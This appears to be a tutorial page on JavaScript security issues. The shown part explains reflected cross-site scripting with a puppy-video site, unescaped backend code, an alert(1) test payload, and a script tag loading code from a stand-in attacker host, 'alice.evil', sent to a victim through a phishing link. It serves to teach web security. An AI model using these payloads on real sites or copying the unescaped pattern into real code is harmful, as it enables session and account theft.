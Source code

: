 ```yaml
---
title: "Security issues"
slug: "security-issues"
draft: false
images: []
weight: 9982
type: docs
toc: true
---
```


This is a collection of common JavaScript security issues, like XSS and eval injection. This collection also contains how to mitigate these security issues.

## Reflected Cross-site scripting (XSS)
Let's say Joe owns a website that allows you to log on, view puppy videos, and save them to your account.

Whenever a user searches on that website, they are redirected to `https://example.com/search?q=brown+puppies`.

If a user's search doesn't match anything, than they see a message along the lines of:

> Your search (**brown puppies**), didn't match anything. Try again.

On the backend, that message is displayed like this:

    if(!searchResults){
        webPage += "<div>Your search (<b>" + searchQuery + "</b>), didn't match anything. Try again.";
    }

However, when Alice searches for `<h1>headings</h1>`, she gets this back:

> Your search (<b><h1>headings</h1></b>) didn't match anything. Try again.

Raw HTML:

    Your search (<b><h1>headings</h1></b>) didn't match anything. Try again.

Than Alice searches for `<script>alert(1)</script>`, she sees:

> Your search (), didn't match anything. Try again.

And:

[![An alert box that says "1".][1]][1]

Than Alice searches for `<script src = "https://alice.evil/puppy_xss.js></script>really cute puppies`, and copies the link in her address bar, and than emails Bob:

> Bob,
>
> When I search for [cute puppies](https://example.com/search?q=<script+src+=+"https://alice.evil/puppy_xss.js></script>really+cute+puppies), nothing happens!

Than Alice sucessfully gets Bob to run her script while Bob is logged on to his account.


  [1]: https://i.stack.imgur.com/CfBYJ.png